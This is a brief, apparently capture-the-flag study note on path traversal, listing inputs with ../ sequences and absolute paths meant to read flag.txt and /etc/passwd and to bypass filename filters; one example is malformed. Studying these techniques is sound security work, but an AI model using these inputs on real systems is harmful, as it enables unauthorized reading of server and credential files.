 # 1. Reading arbitrary files via path traversal
If given var/www/html/images
- -> Step back to var/www/html/images../../../flag.txt
- -> Or var/www/html/images/../../../etc/passwd

# 2. Traversal blocked with absolute path bypass
If given var/www/images/?filename=a.jpg
- ->Use absolute path var/www/images/?filename=/etc/passwd
